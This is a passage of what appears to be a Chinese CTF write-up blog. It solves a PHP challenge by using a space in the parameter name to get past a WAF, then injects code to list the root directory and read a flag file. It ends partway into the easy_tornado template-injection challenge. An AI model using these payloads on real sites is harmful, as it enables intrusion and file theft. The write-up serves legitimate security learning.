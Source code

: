 ```
?num=1;var_dump(scandir(chr(47)))
```

结果发现执行不了：
 [![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817021005.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_4c198138f519cedc9caf30856e5be72a.jpg)
 应该是waf给杀了
 但我们并不知道waf的逻辑，只能猜测是过滤的get方法传入的num的值。
 此处有**php的字符串解析漏洞**
 我们传入：

```
? num=1
```

waf会理解为一个空格加一个num，即名为 num的变量，但php会先去除空格，因此php可以正确理解get方法传入的参数

```
? num=1;var_dump(scandir(chr(47)))
```

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818151023.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_be4544fbba401a23910fd09f1fb7728c.jpg)
 然后使用chr函数即可得到flag:

```
? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

[![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210817021035.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_515d08bad33c512f00b80c7baef3840c.jpg)

## [护网杯 2018]easy_tornado

> 考点：
>
> easy_tornado模板注入

打开环境，提示了三个文件：

![image-20210818150904282](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818150939.png)

无内鬼，看看flag:

![image-20210818151227030](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818151833.png)

看看，好像上当了：

![image-20210818152201134](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818152203.png)

看看前面的welcome:

![image-20210818152625608](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/20210818152628.png)

听别的师傅说看到render就想到模板注入，我，我···

然后康康hint:

